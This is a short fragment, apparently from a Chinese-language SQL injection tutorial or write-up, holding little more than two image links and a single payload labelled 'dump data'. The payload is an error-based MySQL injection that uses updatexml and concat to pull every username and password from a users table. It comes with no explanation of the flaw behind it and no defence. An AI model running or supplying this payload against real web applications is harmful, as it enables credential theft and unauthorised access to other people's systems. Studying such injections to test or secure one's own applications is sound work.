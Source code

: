![](file/image_1an0K-pWhm.png)

```sql
//爆数据
and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users  ),0x7e),1) --+
```

![](file/image_OpPyTpY_L8.png)
